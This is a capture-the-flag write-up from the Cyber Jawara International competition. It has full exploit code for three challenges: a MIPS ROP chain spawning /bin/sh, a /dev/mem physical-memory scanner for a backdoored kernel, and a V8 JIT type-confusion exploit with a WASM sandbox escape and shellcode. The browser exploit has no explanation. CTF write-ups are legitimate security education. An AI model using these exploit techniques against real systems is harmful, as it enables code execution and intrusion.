

# Cyber Jawara International


Team: <mark style="color:blue;">**swusjask fans club**</mark>

Rank: <mark style="color:yellow;">2nd</mark> / <mark style="color:yellow;">211</mark>


<table><thead><tr><th width="206">Challenge</th><th width="309">Category</th><th width="124" align="center">Points</th><th align="center">Solves</th></tr></thead><tbody><tr><td>Mipsssh</td><td>Binary Exploitation</td><td align="center">500 pts</td><td align="center">2</td></tr><tr><td>backdoored_kernel</td><td>Binary Exploitation</td><td align="center">500 pts</td><td align="center">2</td></tr><tr><td>Babybrowser</td><td>Binary Exploitation</td><td align="center">500 pts</td><td align="center">0</td></tr><tr><td>Cryptology</td><td>Binary Exploitation</td><td align="center">500 pts</td><td align="center">0</td></tr></tbody></table>

## Mipsssh

### Description

> I give you flag so Sssshhhhhhhhhhhhhhhh.... okay? IYKWIM
>
> `nc 152.42.183.87 10015`
>
> Author: **Linz**

### Analysis

we're given a single file called `sssh` let's do basic checks

```bash
└──╼ [★]$ file sssh 
sssh: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, BuildID[sha1]=04d7856bad89a1366302511296baa20d295e594a, for GNU/Linux 3.2.0, not stripped

└──╼ [★]$ pwn checksec sssh 
    Arch:     mips-32-big
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

its a MIPS compiled binary with standard security, note that the binary is also statically linked. &#x20;

looking at the decompilation in ghidra, the binary just takes an overflowed input

<figure><figcaption></figcaption></figure>

note that even though checksec result shows the binary has canary, it seems that it doesn't applied to every function.

so this challenge is just basically a ROP challenge in a unfamiliar architecture, that eventually has a goal of calling `execve('/bin/sh', 0, 0)`, since the binary is statically compiled I just assumed `system()` is not an option.

### Familiarizing with MIPS

so first thing first is to figure out what is the syscall instruction equivalent in MIPS, surprise surpise:



its syscall.

next is what register controls the syscall number, this can be figured out by a quick google search and the answer is `v0`

as for the arguments we can read the documentation and it reveals to be `a0` , `a1` and `a2` for the first 3 arguments.

<figure><figcaption></figcaption></figure>

for the instructions, I used this cheatsheet for reference for a quick understanding without diving too deep to every single corner of MIPS



### Exploitation

for ROP-ing in MIPS its more similar to ARM rather than x64, this is because the saved return address is stored in the `ra` register instead of in stack (in some occasion the return address does gets stored in the stack)

as for the gadgets, I will summarize their equivalent in x64 terms, I will refer most what I will expalained below from this writeup:



* ret / call

the convention for calling a function is usually in the form of `jr/jalr $t9` where `jr/jalr` is the equivalent of the `call` instruction in x64 and `$t9` is where the function address is usually stored. you will see this a lot in the gadgets.

with that in mind a return will be simply `jr/jalr $ra`

* pop&#x20;

there's no directly a `pop` instruction in MIPS, however there is a `lw <register> <offset>($sp)` with `lw` stands for load word to register at a certain offset from the stack pointer.  the parentheses signifies to dereference `$sp` as an address, kind of similar to `[rsp-<offset>]` that you might usually see in x64.

* move

in MIPS theres a lot of equivalent that is able to do this, `move` is a an obvious one, but also `addiu`, `or 0` and other forms as well.

so, a gadget in MIPS ROP typically would involve a load instruction to either `t9` or `ra` and end with `jr/jalr` to either `t9` or `ra`, something like this:

```
lw $ra, 0x24($sp) ; [...SNIPPET] ; jr $ra ; addiu $sp, $sp, 0x28
```

or&#x20;

```
[...SNIPPET] ; lw $t9, 0x60($sp) ; [...SNIPPET] ; jalr $t9 ; move, $a0, 0x28
```

now some of you might notice, if `jalr` or `jr` is the ret and call equivalent instruction, that means its the end of the gadget and why there's additional one instruction also specified after it?

turns out MIPS has this thing called `delay slot` which is best explain by the aforemention writeup:

> the instruction directly after the branch gets executed before the branch/jump gets taken, and also if it's not taken

which means if the next instruction has to be taken into account as it could affect the register you have carefully setup.

now for the actual exploitation, lets first see what registers we have control after the overflow

<figure><figcaption></figcaption></figure>

first thing I take into care of is the syscall number register, `v0`

I ran ROPGadgets to extract the available gadgets and search for `pop $v0` but found nothing, that can be chained, so I opted to control it with other registers, as we already controled much of the `t[1-7]` registers, I search for `move $v0, $t[1-7]` gadget but found nothing. what I found however is this:

```
0x0045cb3c : move $v0, $s0 ; lw $ra, 0x2c($sp) ; lw $s4, 0x28($sp) ; lw $s3, 0x24($sp) ; lw $s2, 0x20($sp) ; lw $s1, 0x1c($sp) ; lw $s0, 0x18($sp) ; jr $ra ; addiu $sp, $sp, 0x30
```

so this means I have to find a `pop $s0` gadget, and there's a convinient one:

```
0x0040dfe8 : lw $ra, 0x24($sp) ; lw $s0, 0x20($sp) ; jr $ra ; addiu $sp, $sp, 0x28
```

next to control `a0` to points to /bin/sh, I used this instruction to move the stack pointer to `a0` and write /bin/sh to said stack offset.

```
0x004269e8 : addiu $a0, $sp, 0x58 ; lw $t9, 0x18($sp) ; jalr $t9 ; lw $a1, 0x60($sp)
```

up to this point, `$a2` and `$a1` is still not NULL

<figure><figcaption></figcaption></figure>

to null it I used this little gadget which has nice twist at the end

```
0x00441ca0 : lw $t9, 0x20($sp) ; move $a2, $s0 ; addiu $s2, $s2, 1 ; jalr $t9 ; move $a1, $fp
```

since `$s0` is once again in our control from the 2nd gadget chain, we can control what goes to `$a2`. next as I run the binary up to this chain, I notice that the `$a1` is also got nullified by the result of said `delay slot` of `move $a1, $fp`, conviniently `$fp` was 0.

<figure><figcaption></figcaption></figure>

and so next is just to call syscall and shell should be spawned, here is the exploit being ran againts the remote server:

<figure><figcaption></figcaption></figure>

here's the full exploit script:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
exe = './sssh'
elf = context.binary = ELF(exe, checksec=True)
context.log_level = 'debug'
context.terminal = ["tmux", "splitw", "-h", "-p", "65"]
host, port = '152.42.183.87', 10015

def initialize(argv=[]):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript)
    elif args.REMOTE:
        return remote(host, port)
    else:
        return process([exe] + argv)

gdbscript = '''
init-pwndbg

break *0x4007ec
'''.format(**locals())

# =========================================================
#                         EXPLOITS
# =========================================================
# └──╼ [★]$ file sssh 
# sssh: ELF 32-bit MSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), statically linked, BuildID[sha1]=04d7856bad89a1366302511296baa20d295e594a, for GNU/Linux 3.2.0, not stripped

# └──╼ [★]$ pwn checksec sssh 
#     Arch:     mips-32-big
#     RELRO:    Partial RELRO
#     Stack:    Canary found
#     NX:       NX enabled
#     PIE:      No PIE (0x400000)

lw_ra_0x24sp_lw_s0_0x20sp_jr_ra = 0x0040dfe8
mov_v0_s0_lw_ra_0x2c_sp_stuff_jr_ra = 0x0045cb3c
addiu_a0_sp_0x58_lw_t9_0x18sp_jalr_ra = 0x004269e8
lw_t9_0x20sp_move_a2_s0_stuff_jalr_t9 = 0x00441ca0
syscall = 0x004000e4
NR_execve = 0xfab

def exploit():
    global io
    io = initialize()

    offset = 36
    payload = flat({
        offset: [
            lw_ra_0x24sp_lw_s0_0x20sp_jr_ra,
            cyclic(32),
            NR_execve, # v0
            mov_v0_s0_lw_ra_0x2c_sp_stuff_jr_ra,
            cyclic(24),
            0x0,
            cyclic(44-28),
            addiu_a0_sp_0x58_lw_t9_0x18sp_jalr_ra,
            0x0,
            0x0, # a2
            cyclic(24-8),
            lw_t9_0x20sp_move_a2_s0_stuff_jalr_t9,
            cyclic(4),
            syscall,
            cyclic(60-8),
            u32(b'/bin'),
            u32(b'/sh\x00'),
            0x0, # a1
        ]
    }, filler=b'\x00')
    io.sendline(payload)

    io.interactive()
    
if __name__ == '__main__':
    exploit()
```



Flag: _**CJ{mipppssssshshshshhs\_LINZ\_IS\_HERE}**_


## backdoored\_kernel

### Description

> I was learning how to compile a kernel and my friend tampered with a file. Its just 3 lines, right? No way its a backdoor... right?
>
> `nc 152.42.183.87 10022`
>
> Author: **Zafirr**

### Analysis

we're given these files

```bash
└──╼ [★]$ tree .
.
├── backdoor.patch
├── bzImage
├── docker-compose.yml
├── Dockerfile
├── Kconfig
├── rootfs.cpio.gz
├── run.sh
└── xinetd
```

as the description says, the author compiled the code from source with 3 lines changed specified in `backdoor.patch`

```diff
--- a/linux-6.11.5/drivers/char/mem.c
+++ b/linux-6.11.5/drivers/char/mem.c
@@ -606,9 +606,6 @@
 {
 	int rc;
 
-	if (!capable(CAP_SYS_RAWIO))
-		return -EPERM;
-
 	rc = security_locked_down(LOCKDOWN_DEV_MEM);
 	if (rc)
 		return rc;


```

it removes the security check for permission for the character device of mem at `/dev/mem`

quoting from google, character device is:

> Character device files in Linux are a type of special file that allows direct communication between user programs and hardware devices. They are part of the Linux filesystem and play a important role in Linux system administration.

we can pinpoint exactly what function the permission check is removed from by visiting the linux repository



```c
static int open_port(struct inode *inode, struct file *filp)
{
	int rc;

	if (!capable(CAP_SYS_RAWIO))
		return -EPERM;

	rc = security_locked_down(LOCKDOWN_DEV_MEM);
	if (rc)
		return rc;

	if (iminor(inode) != DEVMEM_MINOR)
		return 0;

	/*
	 * Use a unified address space to have a single point to manage
	 * revocations when drivers want to take over a /dev/mem mapped
	 * range.
	 */
	filp->f_mapping = iomem_get_mapping();

	return 0;
}
```

further search, finds that the function is referenced twice

```c
#define open_mem	open_port

// ...snippet

#ifdef CONFIG_DEVPORT
static const struct file_operations port_fops = {
	.llseek		= memory_lseek,
	.read		= read_port,
	.write		= write_port,
	.open		= open_port,
};
#endif
```

which by removing the permission check, we basically have full control over the physical memory of the system.

### Exploitation

since we have full control of arbitrary read and write, we can just scan and read the entire memory and find the flag.

apparently this is just a warmup challenge.

here is the exploit being ran againts the remote server:

<figure><figcaption></figcaption></figure>

below is the exploit code:


```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>

#define DEVICE "/dev/mem"  
#define START_ADDR 0xdeadc0de00000000
#define MEMORY_SIZE 0x10000000
int fd;

void error(const char *msg) {
    perror(msg);
    exit(1);
}

void _pause(const char *msg) {
    printf("[*] pause: %s\n", msg);
    getchar();
}

int main(int argc, char *argv[]){
    fd = open(DEVICE, O_RDWR);
    if (fd < 0){
        error("open");
    }

    void* memory = mmap((void*)START_ADDR, MEMORY_SIZE, PROT_READ, MAP_SHARED, fd, 0);
    if (memory == MAP_FAILED){
        error("mmap");
    }

    for(int i = 0x0; i < MEMORY_SIZE; i += 0x1000){
        if(strstr(memory + i, "CJ{")){
            printf("[*] Found flag: %s\n", memory + i);
            printf("[*] Flag address: %p\n", memory + i);
            break;
        }
    }
}
```


below is the helper script to transfer the exploit to remote:


```python
#!/usr/bin/env python3
from pwn import *

# =========================================================
#                          SETUP                         
# =========================================================
file = './exploit'
context.log_level = 'info'
context.newline = b'\r\n'
host, port = '152.42.183.87', 10022

# =========================================================
#                         EXPLOITS
# =========================================================
is_root = False
def run(cmd):
    ch = b'# '
    if not is_root:
        ch = b'$ '
    io.sendlineafter(ch, cmd)
    return io.recvline()

def solve_pow():
    io.recvuntil(b'work: ')
    cmd = io.recvline()
    print(cmd)

def upload_payload():
    with open(file, 'rb') as f:
        payload = base64.b64encode(f.read()).decode()    
    for i in range(0, len(payload), 512):
        print(f'Uploading... {i:x} / {len(payload):x}')
        run(f'echo "{payload[i:i+512]}" >> /tmp/b64exp'.encode())
    run(b'base64 -d /tmp/b64exp > /tmp/exploit')
    run(b'rm /tmp/b64exp')
    run(b'chmod +x /tmp/exploit')

def exploit():
    global io
    io = remote(host, port)

    header = io.recvuntil(b'solution:').strip()
    print(header)
    pow = input("pow >> ")
    io.sendline(pow.encode())

    upload_payload()

    io.interactive()

if __name__ == '__main__':
    exploit()
```



Flag: _**CJ{8572170a6ebad8e9d9602f7025dbf8cd8f6852c919cad763194c387e2ca2026d}**_


## Babybrowser

### Description

> Pls dont 0 day :(, don't bully me :(
>
> `nc 152.42.183.87 10014`
>
> Author: **Linz**
>
> Hint:
>
> [https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/](https://doar-e.github.io/blog/2019/01/28/introduction-to-turbofan/)
>
> I mean, that's should be more than enough :D

### Analysis

i will eventually do it

### Exploitation

i will eventually do it


```javascript
// ===============================================
// STARTERS AND UTILS
// ===============================================
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

// function dp(x){ %DebugPrint(x); }
// function bp() { %SystemBreak(); }

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// ===============================================
// LEAK MAPS
// ===============================================
var float_arr = [1.2, 1.3, 1.4, 1.4];
var obj_arr = [];
function leak_map(x, arr){
    let idx = 0;

    if (arr.length == 0) {
        return 0;
    }

    if (x == "pwn") {
        idx = 12;
    }
    return arr[idx];
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = leak_map("", float_arr);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

firing_range_maps = [2.1, 2.2, 2.3, 2.4];
victim_maps = [2.1, 2.2, 2.3, 2.4];

var float_arr_map  = itof(ftoi(leak_map("pwn", firing_range_maps)) >> 32n);
console.log("[+] float_arr_map: 0x" + ftoi(float_arr_map).toString(16));
var obj_arr_map = itof(ftoi(float_arr_map) - 0x900n);
console.log("[*] obj_arr_map: 0x" + ftoi(obj_arr_map).toString(16));

// ===============================================
// ADDRESS OF PRIMITIVE
// ===============================================
function pre_addrOf(x, arr) {
    let idx = 0;

    if (arr.length == 0) {
        return 0;
    }

    if (x == "pwn") {
        idx = 7;
    }

    return arr[idx];
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = pre_addrOf("", float_arr);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

function addrOf(obj) {
    var firing_range_addrof = [3.1, 3.2, 3.3, 3.4];
    var victim_addrof = [{'A': 1}, {'B': 2}];
    victim_addrof[0] = obj;
    
    // dp(firing_range_addrof);
    // dp(obj);
    // bp();
    
    return ftoi(pre_addrOf("pwn", firing_range_addrof)) & 0xffffffffn;
}

// ===============================================
// FAKE OBJECT OF PRIMITIVE
// ===============================================
function pre_fakeObj(x, arr, val) {
    let idx = 0;

    if (arr.length == 0) {
        return 0;
    }

    if (x == "pwn") {
        idx = 9;
    }

    arr[idx] = val;
}

// bit brute as well cause, sometimes it doesnt optimize
var tmp = 0x0;
for (var i = 0; i < 0x100000; i++) {
    let t = pre_fakeObj("", float_arr, 6.9);
    tmp += t;
}
console.log("[+] just for the optimization to happen: 0x" + ftoi(tmp).toString(16)); 

function fakeObj(addr) {
    var float_arr = [1.1, 1.2, 1.3, 1.4];
    var obj = {"A":1};
    var obj_arr = [obj, obj];

    // dp(float_arr);
    // console.log("[*] float_arr: 0x" + addrOf(float_arr).toString(16));
    // console.log("[*] obj: 0x" + addrOf(obj).toString(16));
    // console.log("[*] obj_arr: 0x" + addrOf(obj_arr).toString(16));
    // bp();

    // dp(obj_arr);
    pre_fakeObj("pwn", float_arr, itof(addr));
    
    // console.log("[!] debug: expected obj_arr[0] = 0x" + addr.toString(16)); 
    // bp();

    return obj_arr[0];
}

// ===============================================
// AAR & AAW
// ===============================================
function weak_read(addr) {
    var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];
    
    // console.log("[*] read_addr: 0x" + addr.toString(16));
    // console.log("[*] arb_rw_arr: 0x" + addrOf(arb_rw_arr).toString(16));
    // dp(arb_rw_arr);
    
    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);

    // bp();
    if(fake == undefined) {
        return 0;
    }

    return ftoi(fake[0]);
}

function weak_write(addr, val) {
    var arb_rw_arr = [(itof(0x725n << 32n)) + (float_arr_map), 1.2, 1.3, 1.4];

    if (addr % 2n == 0)
        addr += 1n;

    let fake = fakeObj(addrOf(arb_rw_arr) - 0x20n);
    arb_rw_arr[1] = itof(0x8n << 32n) + itof(addr - 0x8n);
    fake[0] = itof(val);
}

// ===============================================
// SANDBOX ESCAPE. FROM: https://ptr-yudai.hatenablog.com/entry/2024/07/09/115940
// ===============================================
d8.file.execute("wasm-module-builder.js");

const kHeapObjectTag = 1;
const kWasmTableObjectTypeOffset = 32;
const kRef = 9;
const kSmiTagSize = 1;
const kHeapTypeShift = 5;

const builder = new WasmModuleBuilder();
builder.exportMemoryAs("mem0", 0);
let $mem0 = builder.addMemory(1, 1);

let $struct = builder.addStruct([makeField(kWasmI64, true)]);
let kSig_i_ll = makeSig([kWasmI64, kWasmI64], [kWasmI32]);
let $sig_i_ll = builder.addType(kSig_i_ll);
let $sig_l_l = builder.addType(kSig_l_l);
let $sig_l_v = builder.addType(kSig_l_v);

let $sig_leak = builder.addType(makeSig([kWasmI64, kWasmI64, kWasmI64, kWasmI64, kWasmI64, kWasmI64, kWasmI64, kWasmI64], [kWasmI64]));
let $sig_aar = builder.addType(makeSig([wasmRefType($struct)], [kWasmI64]));
let $sig_aaw = builder.addType(makeSig([wasmRefType($struct), kWasmI64], []));

let $f0 = builder.addFunction("func0", $sig_aaw)
.exportFunc()
.addBody([
    kExprLocalGet, 0,
    kExprLocalGet, 1,
    kGCPrefix, kExprStructSet, $struct, 0,
]);
let $f1 = builder.addFunction("func1", $sig_aar)
.exportFunc()
.addBody([
    kExprLocalGet, 0,
    kGCPrefix, kExprStructGet, $struct, 0,
]);
let $f2 = builder.addFunction("func2", $sig_leak)
.exportFunc()
.addBody([
    kExprLocalGet, 0,
]);

let $f = builder.addFunction("f", $sig_i_ll).exportFunc().addBody([
    kExprI32Const, 0,
]);
let $g = builder.addFunction("g", $sig_l_l).exportFunc().addBody([
    kExprI64Const, 0,
]);
let $h = builder.addFunction("h", $sig_l_v).exportFunc().addBody([
    kExprI64Const, 0,
]);

console.log("[*] add table");
let $t0 = builder.addTable(wasmRefType($sig_i_ll), 1, 1, [kExprRefFunc, $f.index]);
builder.addExportOfKind("table0", kExternalTable, $t0.index);
let $t1 = builder.addTable(wasmRefType($sig_l_l), 1, 1, [kExprRefFunc, $g.index]);
builder.addExportOfKind("table1", kExternalTable, $t1.index);
let $t2 = builder.addTable(wasmRefType($sig_l_v), 1, 1, [kExprRefFunc, $h.index]);
builder.addExportOfKind("table2", kExternalTable, $t2.index);

console.log("[*] add primitive func")
builder.addFunction("aaw", kSig_i_ll)
.exportFunc()
.addBody([
    kExprLocalGet, 1,
    kExprLocalGet, 0,  // func parameter
    kExprI32Const, 0,  // func index
    kExprCallIndirect, $sig_i_ll, 0 /* table num */,
])
builder.addFunction("aar", kSig_l_l)
.exportFunc()
.addBody([
    kExprLocalGet, 0,  // func parameter
    kExprI32Const, 0,  // func index
    kExprCallIndirect, $sig_l_l, 1 /* table num */,
])
builder.addFunction("leak", kSig_l_v)
.exportFunc()
.addBody([
    kExprI32Const, 0,  // func index
    kExprCallIndirect, $sig_l_v, 2 /* table num */,
])

console.log("[*] instantiate");
let instance = builder.instantiate();
let func0 = instance.exports.func0;
let func1 = instance.exports.func1;
let func2 = instance.exports.func2;
let table0 = instance.exports.table0;
let table1 = instance.exports.table1;
let table2 = instance.exports.table2;

let t0 = addrOf(table0);
let t1 = addrOf(table1);
let t2 = addrOf(table2);
console.log("[*] t0: 0x" + t0.toString(16));
console.log("[*] t1: 0x" + t1.toString(16));
console.log("[*] t2: 0x" + t2.toString(16));

let type0 = (($sig_aaw << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t0 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type0));
table0.set(0, func0);

let type1 = (($sig_aar << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t1 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type1));
table1.set(0, func1);

let type2 = (($sig_leak << kHeapTypeShift) | kRef) << kSmiTagSize;
weak_write(t2 + BigInt(kWasmTableObjectTypeOffset - kHeapObjectTag), BigInt(type2));
table2.set(0, func2);

let trusted_data_addr = instance.exports.leak() - 1n;
console.log("[+] trusted data @ " + trusted_data_addr.toString(16));

let addr_rwx = instance.exports.aar(trusted_data_addr + 0x30n - 7n);
console.log("[+] wasm code @ " + addr_rwx.toString(16));

// var getdents_shellcode = [
//     0x9090909090909090n,
//     0x480000002b3d8d48n,
//     0x0002b8d23148f631n,
//     0x48c78948050f0000n,
//     0xb800001337bae689n,
//     0x01bf050f0000004en,
//     0x00000001b8000000n,
//     0x002e050fn,
// ]

// for (let i = 0; i < getdents_shellcode.length; i++) {
//     instance.exports.aaw(addr_rwx + BigInt(0xb69-0x9) + BigInt(i * 8), getdents_shellcode[i]);
// }
// instance.exports.aar(trusted_data_addr, 1n);

var exec_flag_reader_shellcode = [
    0x9090909090909090n,
    0x480000000d3d8d48n,
    0x003bb8d23148f631n,
    0x6d6f682f050f0000n,
    0x6c662f6e77702f65n,
    0x65646165725f6761n,
    0x6166633662322d72n,
    0x3237386633356439n,
    0x6230396337623435n,
    0x6137316432316462n,
    0x003662n,
];

for (let i = 0; i < exec_flag_reader_shellcode.length; i++) {
    instance.exports.aaw(addr_rwx + BigInt(0xb69-0x9) + BigInt(i * 8), exec_flag_reader_shellcode[i]);
}
instance.exports.aar(trusted_data_addr, 1n);
```



Flag: _**CJ{gg:::\_\_:\_\_\_::\_LINZ\_IS\_HERE}**_


## Cryptology

### Description

> super secure encryption using C++! (again!)
>
> `nc 68.183.177.211 10020`
>
> Author: **Zafirr**

### Analysis

i hate crypto

### Exploitation

i hate crypto, even though its just a layer
